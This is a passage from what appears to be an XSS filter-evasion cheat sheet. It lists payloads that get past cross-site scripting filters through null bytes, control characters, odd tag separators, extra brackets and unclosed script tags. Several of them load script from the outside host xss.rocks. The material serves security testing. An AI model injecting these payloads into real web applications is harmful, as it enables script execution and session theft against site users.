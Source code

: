 ##### Example 2: Break Up JavaScript Directive with Null¶
Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use %00 in the URL string or if you want to write your own injection tool you can either use vim (^V^@ will produce a null) or the following program to generate it into a text file. The null char %00 is much more useful and helped me bypass certain real world filters with a variation on this example:
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

##### Example 3: Spaces and Meta Chars Before the JavaScript in Images for XSS¶
This is useful if a filter's pattern match doesn't take into account spaces in the word javascript:, which is correct since that won't render, but makes the false assumption that you can't have a space between the quote and the javascript: keyword. The actual reality is you can have any char from 1-32 in decimal:
<a href=" &#14;  javascript:alert('XSS');">Click Me</a>

##### Example 4: Non-alpha-non-digit XSS¶
The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefore considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example \<SCRIPT\\s != \<SCRIPT/XSS\\s:
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>

Based on the same idea as above, however, expanded on it, using Rsnake's fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

Yair Amit noted that there is a slightly different behavior between the Trident (IE) and Gecko (Firefox) rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful in a attack if the system does not allow spaces:
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>

#### Extraneous Open Brackets¶
This XSS vector could defeat certain detection engines that work by checking matching pairs of open and close angle brackets then comparing the tag inside, instead of a more efficient algorithm like [Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm) that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to suppress a JavaScript error:
<<SCRIPT>alert("XSS");//\<</SCRIPT>

(Submitted by Franz Sedlmaier)
#### No Closing Script Tags¶
With Firefox, you don't actually need the \></SCRIPT> portion of this XSS vector, because Firefox assumes it's safe to close the HTML tag and adds closing tags for you. Unlike the next attack, which doesn't affect Firefox, this method does not require any additional HTML below it. You can add quotes if you need to, but they're normally not needed:
<SCRIPT SRC=http://xss.rocks/xss.js?< B >

#### Protocol Resolution in Script Tags¶
This particular variant is partially based on Ozh's protocol resolution bypass below, and it works in IE and Edge in compatibility mode. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The .j is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag:
<SCRIPT SRC=//xss.rocks/.j>
